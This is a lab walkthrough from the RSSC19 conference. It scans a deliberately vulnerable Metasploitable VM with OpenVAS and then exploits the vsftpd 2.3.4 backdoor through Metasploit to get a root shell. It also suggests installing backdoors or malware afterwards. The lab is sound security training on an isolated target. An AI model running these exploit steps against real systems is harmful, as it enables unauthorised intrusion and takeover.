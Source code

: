 # RSSC19-OpenVAS-Lab

## Prerequisites

In order to execute this lab, there are a few things you will need to get started.
1. Installation of Metasploitable 2 VM as an attack target
   * This can be downloaded here: https://sourceforge.net/projects/metasploitable/files/Metasploitable2/
   * This lab will not go into how to register the download into your hypervisor, but many tutorials are available online
2. Kali Linux installed to attack the target host
3. Both machines should be connected to the same network
   * **DO NOT** expose the Metasploitable VM to untrusted networks, only your attack host should be able to access the target
4. For this lab we're going to use the IP 192.168.100.10 for the Metasploit target and 192.168.100.11 for the Kali console. Replace these IPs in the instructions with your own if using different ones.

## Attack Execution

Here we will walk through the process of using OpenVAS to scan a host and determine its vulnerabilities.

### Installation of OpenVAS - **SKIP THIS SECTION IF YOU'RE AT THE RSSC19 CONFERENCE, IT HAS ALREADY BEEN DONE FOR YOU**
1. On your Kali installation, open a terminal
2. Install OpenVAS using apt.

```bash
apt install openvas -y
```

3. Once installed, run the setup utility. This allows OpenVAS to start downloading vulnerability information and perform required setup tasks.

```bash
openvas-setup
```

4. This process will take some time to complete. When it's finished, it will print information on how to connect to the service, including the default admin password, which is randomly generated.
`image goes here`

### Login to OpenVAS and Execute Scan

Now we will use OpenVAS to perform a scan against our target host.

1. Launch Firefox (or your preferred web browser) and navigate to https://127.0.0.1:9392
2. Login with the username `admin` and your password.
   * If you are following this exercise at RSSC19, the admin password is `RSSC19`
   * If you are following this exercise at home, you will need to get your default admin password from the steps in the previous section.
3. Once logged in, click `Scans`, then `Tasks` in the fly-down menu

![ScansTasks](/screenshots/RSSC19_1.png)

4. Click the purple `Wizard` icon in the top-left corner

`image goes here`

5. Enter the IP address of the Metasploit VM
   * At RSSC19, the IP is `192.168.100.10`
6. Click `Start Scan`
7. This will take some time to complete. If you are at RSSC19, you can move on to the next section, as a scan has already been run previously and the results are already available

### Reviewing the Results and Finding Vulnerabilities to Exploit

Here we will look at the scan results to find vulnerabilities to exploit

1. Click on `Scans` then `Results`
2. Sort by Severity by clicking on the `Severity` header in the Vulnerability table
   * You may need to click this twice to have it sort in descending order
3. Review some of the vulnerabilities on this page that are of `High` Severity. You can click on the name of the vulnerability to get more detail.
4. Find the vulnerability titled `vsftpd Compromised Source Packages Backdoor Vulnerability` and click on it for more information
   * Note: There may be more than one of these, select the one that shows a Location of `21/tcp`
5. We can learn from this page that there is a backdoor vulnerabillity in this FTP service that can be exploited.

### Finding and Running the Exploit

1. Open a terminal and launch the metasplpoit console, which is used to find vulnerabilities and execute their exploits

```bash
msfconsole
```

2. Search for any exploits related to the `vsftpd` service we discovered vulnerabilities for in the previous section

```bash
search vsftpd
```

3. There is one exploit available, and it is for `Backdoor Command Execution`, which is the vulnerability we found in OpenVAS. Let's select the exploit

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

4. Review the options available for the exploit

```bash
show options
```

5. RPORT is already set to 21, which is correct based on the OpenVAS result showing the vulnerability on that port. We need to set the target IP though, which is the Metasploitable VM.

```bash
set RHOSTS 192.168.100.10
```

6. Now that all the required options are set, run the exploit

```bash
run
```

7. If successful, this should grant you a root shell to the target box. To confirm, run the following commands to verify hostname, IP, and logged in user of your remote shell

```bash
ip a
hostname
whoami
```
   * Notice the IP address 192.168.100.10 is listed, which belongs to our target host, and the hostname is metasploitable, as expected. The result of the `whoami` command should be `root`, indicating your root access.
   
8. From here you have full control of the target and you can perform any commands you wish, such as installing backdoors for access later, malware, obtaining sensitive information on the filesystem, etc.

# Conclusion

we hope this has been useful in seeing the process of scanning a target system for exploitable vulnerabilities, determining which are exploitable, finding the exploits, and executing them to gain access to a target host. It is a good idea to run vulnerability scanners like this in your own environment to determine where your weaknesses are so you can correct them before a malicious actor finds them instead.
